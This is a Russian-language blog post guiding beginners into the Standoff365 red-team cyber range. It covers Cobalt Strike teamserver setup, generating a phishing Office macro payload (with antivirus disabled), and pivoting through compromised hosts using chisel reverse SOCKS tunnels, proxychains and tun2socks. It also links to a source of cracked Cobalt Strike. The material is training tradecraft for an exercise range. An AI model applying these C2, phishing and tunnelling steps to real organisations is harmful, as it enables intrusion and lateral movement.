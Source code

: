 ```yaml
---
title: "how to start standoff2 (365)"
description: ""
date: 2024-06-08
summary: "первый шаг к реализации события с шифрованием больницы"  

tags: ["pentest"]
showAuthor: true
authors:
  - "bebra"
---
```


![welcome](img/welcome.jpg)

В общем-то, чтобы начать нагибать надо сперва скачать игру в google play/app store и много тренироваться.
Ладно, вы, вероятно, здесь не за этим. 

# Зачем вообще нужон этот ваш стендофф? 
`Standoff — открытые киберучения для специалистов по информационной безопасности.` Представляется как сопротивление между red и blue командами, далее разговор пойдет с перспективы наступательной стороны. Для красных команд это очень полезные учения, чтобы отточить свои навыки в проломе инфраструктур компаний и организаций абсолюнто разных направленностей: от IT интегратора до нефтегазового производителя. Если углубиться в более технические моменты - мало где можно найти настолько крупные инфраструктуры active directory (с недавнего времени и FreeIpa) в рамках лаб/ctf и продуманных векторов, которые через цепочку эксплуатации различных уязвимостей и техник ведет вас к реализации бизнес рисков.

Далее освечу пару важных штук, без чего играть в редтимера будет сложно.

# C2
C2 (Command&Control) - это сервер, через который операторы могут управлять разными устройствами. Позволяет вам и вашим тиммейтам удобно управлять захваченными хостами.
![cobalt](img/cobalt.jpg)
Самым удобным является Cobalt Strike. Правда есть одна проблема - стоит он много деняк (можно самостоятельно сделать ~~кряк~~), но одни добрые [ребята](https://t.me/Pwn3rzs) отдают кобальт буквально даром, однако призываю не использовать подобные релизы на реальных проектах, иначе вылезшие маленькие ножки из вашего тимсервера могут сотворить много бед, используя полученные вами доступы.

Приступим к деплою, показывать буду на версии 4.7.
Первым делом харденим тимсервер, а именно порт для коннекта к c2 (у кобальта по дефолту это 50050) должен быть доступен только операторам, для этого можно поднять дополнительно vpn сервер и разрешить трафик к порту 50050 только с интерфейса VPN, то же можно отнести к ssh и другим сервисам. В идеале наружу должен торчать порт листенера и chisel сервера(о нем позже). Пример иптейблов
```bash
sudo iptables -A INPUT -i tun0 -p tcp --dport 50050 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 50050 -j DROP
```

Теперь необходимо поднять сервер cobalt strike. 
```bash
sudo apt install openjdk-11-jdk
sudo ./teamserver  <teamserver-ip> <password> <profile file>
```
Айпи важно указывать тот, на котором будем ловить коннекты. Для начала можно и без профиля, позже вернемся к нему.

Теперь подключаемся ![login page](img/login.png)
Далее создадим листенер, для этого переходим в верхней панели `Cobalt Strike -> Listeners -> Add` и здесь на первых порах можно остановиться на http типе полезной нагрузки, а еще в http hosts добавляем ip сервера и сохраняем.

Ура, теперь ваша кобла готова к принятию жертв.

Теперь о профилях, если в кратце, то вы можете описать как будет общаться агент (он же бикон/имплант) с тимсервером, а именно, если связь по http, то подставляемый юзерагент, на какие ручки будут выполняться запросы и тд, все это частично для того, чтобы минимизировать шанс привлечь внимание сотрудника SOC. Также можно сразу задать параметры sleep - отрезок времени, раз в который будет осуществляться обмен связью между биконом и сервером, а также jitter - отвечает за долю рандома, чтобы запросы общения не были одинаковыми. Пара полезных ресурсов откуда можно подсосать профиль/вдохновиться для написания своего - [разработка](https://github.com/threatexpress/malleable-c2), [примеры](https://github.com/xx0hcd/Malleable-C2-Profiles).

А еще кобальт славится возможностью написать скрипты для автоматизации многих процессов при пентесте, например по кнопке собрать bloodhound, запустить winpeas, создать локального админа и вообще все, что может взбрести в голову. [Как писать 1](https://habr.com/ru/articles/815927/), [как писать 2](https://blog.injectexp.dev/2024/05/25/cobalt-strike-write-own-aggressor-script/), [подборка скриптов](https://github.com/Peco602/cobaltstrike-aggressor-scripts)
# Фишинговый макрос
C2 подготовили, а как сюда завести хосты??
В рамках standoff используется упрощенный сценарий, который весьма реален и повседневно используется вполне успешно пентестерами. Заготавливаем документ microsoft office со зловредным макросом, отправляем сотруднику целевой компании и вынуждаем открыть документ - профит.

Собственно начнем с генерации нагрузки, она же макрос. В верхней панели кобальта выбираем `Payloads -> MS Office Macro -> Выбираем листенер -> Generate`, копируем (переходим на винду, и тут надо выключить антивирус, а то он все испортит, либо накинуть исключений). Создаем документ типа `.doc` или `.docm`, открываем в поиске раздел с макросами, обратите внимание на пункт `Макросы из` он должен указывать на целевой документ.
![macro](img/macro.png)
Вставляем ранее сгенерированный скрипт в открывшееся окно и сохраняем документ.

Усе, теперь осталось отправить документ во вложении на почте, но оставлю этот процесс на самостоятельное изучение.

# Pivoting 

После получения initial access, а именно первой сессии в c2 перед нами встает вопрос, а как же двигаться дальше? Скорее всего вам захочется использоваь сетевую видимость захваченного хоста, но тащить на него многие тулзы не всегда представляется удобным. В этом вопросе  нас выручает техника пивотинга. Суть в том, чтобы проксироваться через захваченную тачку, для этого существуют тулзы - [chisel](https://github.com/jpillora/chisel), [gost](https://github.com/ginuerzh/gost). Покажу пару техник с чизлом.

Имеем ситуацию: 1 захваченная винда, нужно двигаться по инфре внутри. Для этого закидываем на винду скомпиленный чизел, на тимсервере поднимаем чизел сервер (!Важно, чтобы версия клиента и сервера совпадала) в режиме реверс.
```bash
chisel server --reverse -p 80
```

С винды подключаемся, `ip-open` это айпи тимсервера, с которого будет доступен порт для тоннеля через захваченный хост, например, открыв на 0.0.0.0 мы сделаем проксю доступной для всех интерфейсов тимсервера. `port` - соответственно порт, который откроется на тимсервере и будет тоннелем до виндовой тачки. `R` - reverse мод, так как снаружи мы не можем видеть целевой хост, а он нас во внешней сети видит. `socks` - метод тоннелирования протокол socks5 (не пропускает icmp, и в большинстве случаев udp).
```powershell
chisel.exe client <teamserver-ip:80> R:<ip-open>:<port>:socks
```
![pivot1](img/pivot.png)
У нас есть тоннель, позволяющий проксироваться через захваченную тачку в целевую сеть, но надо как-то заворачивать траффик в этот тоннель. Для этих дел есть старый-добрый proxychains. Он предустановлен в kali, но спокойно ставится через любой пакетный менеджер. Редактируете последнюю строчку в файле `/etc/proxychains4.conf` на `socks5 ip port` и просто добавляете `proxychains ...`перед любой командой командой, которую хотите запустить через проксю.

У данной тулзы есть минусы, например, невозможность запускать через тоннель асинхронные тулзы. На помощь приходит новомодный [tun2socks](https://github.com/xjasonlyu/tun2socks).
Чтобы пользоваться, поднимаем tuntap интерфейс, и добавляем выдаваемую этим интерфейсом подсеть ту, в которую ведет тоннель. Например, захваченный хост находится в подсети 10.154.0.0/23, значит эту подсеть и прокинем себе через создаваемый интерфейс.
```bash
sudo ip tuntap add mode tun dev t2s
sudo ip addr add 10.154.0.0/24 dev t2s
sudo ip link set up dev t2s
```

И теперь запускаем tun2socks, чтобы он заворачивал трафик в socks тоннель.
```bash
tun2socks -device tun://t2s -proxy socks5://localhost:3001
```

После этого у вас появился интерфейс `t2s`, ведущий в целевую сеть.


Еще одна техника, когда хост, через который нужно проксироваться не имеет видимости до тимсервера (например, без выхода в интернет).
Chisel умеет в режим проброса, и здесь важно уловить почему какой ip использовать. Chisel server остается без изменений.
```bash
chisel server --reverse -p 80
```
На промежуточном хосте мы указываем в аргументы клиента ip и port тимсервера, и дополнительно прописываем по такой логике <айпи который видит захваченный хост-2>:порт:айпи-тимсервера:порт-тимсервера. Получается что хост будет принимать все обращения на `<inter-ip>:<inter-port>` и редиректить на `<ts-ip>:<ts-port>`.
```bash
chisel client <ts-ip>:<ts-port> <inter-ip>:<inter-port>:<ts-ip>:<ts-port>
```

Ну и второй захваченный хост подключаем указывая айпи и порт первого захваченного хоста(промежуточного).
```bash
chisel client <inter-ip>:<inter-port> R:<ip-open>:<port>:socks
```
 
![double](img/double.png)

# END
На этом хотелось бы закончить. Надеюсь статья вышла полезной для тех, кто хочет, но не знает как начать играть на киберполигоне standoff365.
Советую стартовать с [сегмента для новичков](https://range.standoff365.com/battle/7/?section=report&tab=risksReports), ведь там почти на каждый риск есть хинты, что позволит более гладко войти в среду. 
